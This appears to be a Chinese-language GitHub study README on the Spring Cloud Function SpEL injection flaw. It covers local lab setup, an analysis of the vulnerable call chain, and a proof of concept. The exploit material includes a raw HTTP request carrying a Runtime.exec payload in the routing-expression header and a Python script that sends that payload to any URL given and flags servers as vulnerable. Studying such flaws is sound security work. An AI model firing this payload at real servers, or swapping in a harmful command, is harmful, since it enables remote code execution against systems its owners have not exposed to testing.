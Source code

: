 # SPeL-injection-study

共分为环境搭建及漏洞复现、原理学习、POC编写三部分

一、环境搭建

IDEA新建spring initializr

![图片](https://user-images.githubusercontent.com/90664154/164909353-8e59c6c2-b38d-4bdb-8dcf-251abfb2dde3.png)
![图片](https://user-images.githubusercontent.com/90664154/164909361-5067e7e9-1afa-477a-a581-d8811f7b4cb6.png)
![图片](https://user-images.githubusercontent.com/90664154/164909390-ef235ebe-5f69-4004-ac6a-14c1746dd062.png)
这里生成jar包
![图片](https://user-images.githubusercontent.com/90664154/164909399-52db580e-c85e-46aa-96aa-6aa7996a9393.png)

在终端安装jdk11

java -jar jojoSPeL-0.01-SNAPSHOT.jar  部署jar包

![图片](https://user-images.githubusercontent.com/90664154/164909424-929dd7da-900d-44bb-923c-d9d5b22f5f4a.png)

访问127.0.0.1:8080验证
![图片](https://user-images.githubusercontent.com/90664154/164909431-224e18e6-e58e-4613-abd9-84087e0db1f7.png)

发送POC验证
POST /functionRouter HTTP/1.1
Host: 127.0.0.1:8080
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("calc")
Content-Type: application/x-www-form-urlencoded
Content-Length: 4

jojo

![图片](https://user-images.githubusercontent.com/90664154/164909439-3dd2662e-1eb7-4231-8ec6-95a7f2a262eb.png)

二、漏洞分析
header头的spring.cloud.function.routing-expression参数调用链：
org.springframework.cloud.function.web.mvc.FunctionController中,
body-> processReques(RoutingFunction)-> FunctionInvocationWrapper.apply-> doApply-> RoutingFunction(apply)-> org.springframework.cloud.function.context.config.RoutingFunction(route)-> this.functionFromExpression()，最终执行，这其中的安全过滤函数不充分
![图片](https://user-images.githubusercontent.com/90664154/164909446-6745d62c-4204-4b51-8efe-f792e9893166.png)

三、Poc编写
# coding=UTF-8
import requests
import sys
import base64
import urllib3
urllib3.disable_warnings()

def calculator(url,ip,port):
    payload ='T(java.lang.Runtime).getRuntime().exec("calc")'
    data ='jojo'
    headers = {
        'spring.cloud.function.routing-expression':payload,
        'Accept-Encoding': 'gzip, deflate',
        'Accept': '*/*',
        'Accept-Language': 'en',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36',
        'Content-Type': 'application/x-www-form-urlencoded'
    }
    path = '/functionRouter'
    allurl = url + path
    try:
        req=requests.post(url=allurl,headers=headers,data=data,verify=False,timeout=3)
        code =req.status_code
        text = req.text
        rsp = '"error":"Internal Server Error"'
        if code == 500 and rsp in text:
            print('{url} 存在漏洞')
        else:
            print('{url} 不存在漏洞')
    except requests.exceptions.RequestException:
        print('[-]{url} 检测超时')
        pass
    except:
        print('[-]{url} 检测异常')
        pass
        
if __name__ == '__main__' :
    try:
        cmd1 =sys.argv[1]
        cmd2 =sys.argv[2]
        cmd3 =sys.argv[3]
        calculator(cmd1,cmd2,cmd3)
    except:
        print('python jojoSPel.py url ip port')
        pass
